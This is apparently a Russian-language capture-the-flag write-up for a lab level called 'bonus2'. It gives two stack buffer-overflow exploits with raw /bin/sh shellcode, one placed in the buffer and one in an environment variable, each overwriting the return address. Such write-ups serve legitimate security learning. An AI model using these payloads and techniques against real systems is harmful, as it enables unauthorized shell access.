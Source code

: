 ## bonus2
B этом уровне мы можем заметить наличие двух функций `main()` и `greetuser()`. кроме того, в глаза бросается использование переменной окружения. Вызова оболочки в коде нет, поэтому необходимо прописывать shellcode. 

![](docs/img/bonus2_1.png)

### Первый способ:

Записать shellcode в буфер функции `main()` и записать адрес буфера в регистр `eip`. Достаточное переполнение буфера невозможно при приветствии по-английски (5 символов). Поэтому надо сменить значение переменной окружения `LANG` на `fi` или `nl`. Рассмотрим вариант с финским приветствием - тут оффсет нужного регистра - 18. Адрес буфера - `0xbffff6d0`.

Итоговая команда:

```sh
$ LANG=fi ./bonus2 $(python -c 'print "a"*19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print "a"*18 + "\xd0\xf6\xff\xbf"')
```

### Второй способ:

Записать shellcode не в буфер, а в переменную окружения, так как это делает взаимодействие с памятью более стабильным. Для этого понадобится так же найти адрес переменной окружения. 

Итог:

```sh
$ export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

$ ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a"*18 + "\x10\xf5\xff\xbf"')
```
